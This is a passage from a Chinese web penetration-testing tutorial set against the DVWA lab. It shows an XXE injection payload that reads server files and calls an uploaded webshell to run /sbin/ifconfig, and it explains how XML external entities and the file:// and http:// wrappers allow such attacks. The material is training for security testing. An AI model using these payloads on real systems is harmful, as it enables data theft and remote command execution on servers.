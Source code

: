     ![](img/6-3-3.jpg)
    
    使用这个技巧，我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。
    
    我们也可以使用 XEE 来加载页面。在上一个秘籍中，我们已经设法将 webshell 上传到服务器中，让我们试试吧。
    
    ```xml
    <!DOCTYPE fileEntity [ 
        <!ELEMENT fileEntity ANY> 
        <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?cmd=/sbin/ifconfig"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    
    ![](img/6-3-4.jpg)
    
### 工作原理

XML 拥有叫做实体的特性。XML 实体是与值关联的名称，每次实体在文档中使用的时候，它都会在 XML文件处理时替换为值。使用它以及不同的可用包装器（`file://`来加载系统文件，或者`http://`来加载 URL），我们就可以通过输入校验和XML 解析器的配置，恶意使用没有合理安全措施的实现，并提取敏感数据或者甚至在服务器中执行系统命令。
